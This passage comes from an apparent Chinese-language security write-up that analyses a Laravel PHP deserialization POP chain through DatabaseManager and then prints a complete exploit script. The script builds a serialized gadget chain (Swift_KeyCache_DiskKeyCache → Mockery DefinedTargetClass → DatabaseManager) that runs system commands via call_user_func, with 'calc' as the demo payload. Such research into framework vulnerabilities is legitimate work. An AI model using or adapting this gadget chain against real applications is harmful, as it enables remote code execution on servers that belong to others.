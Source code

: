 ![undefined](https://p1.ssl.qhimg.com/t01041c2aa66c1f1cad.png "undefined")

![undefined](https://p0.ssl.qhimg.com/t01484d0c48b1130516.png "undefined")

跟进`getConfig()`方法，继续跟进`Arr::get($connections, $name)`，可以看到经过`get()`方法返回回来的`$config`的值是可控的，可以将命令执行函数返回回来，从而导致 RCE

![undefined](https://p0.ssl.qhimg.com/t01d87acb0b55e8f265.png "undefined")

![undefined](https://p5.ssl.qhimg.com/t014d438b111c23f23c.png "undefined")

### exp
```php
<?php 
namespace Illuminate\Database{
    class DatabaseManager{
        protected $app;
        protected $extensions ;
        public function __construct($payload)
        {
            $this->app['config']['database.default'] = $payload;
            $this->app['config']['database.connections'] = [$payload => 'system'];
            $this->extensions[$payload]='call_user_func';
        }
    }
}

namespace Mockery\Generator {
    use Illuminate\Database\DatabaseManager;
    class DefinedTargetClass {
        private $rfc;
        public function __construct($payload) {
            $this->rfc = new DatabaseManager($payload);
        }
    }
}

namespace {
    use Mockery\Generator\DefinedTargetClass;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new DefinedTargetClass($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP链利用流程图

![undefined](https://p1.ssl.qhimg.com/t01e9eeb38689dddbee.png "undefined")
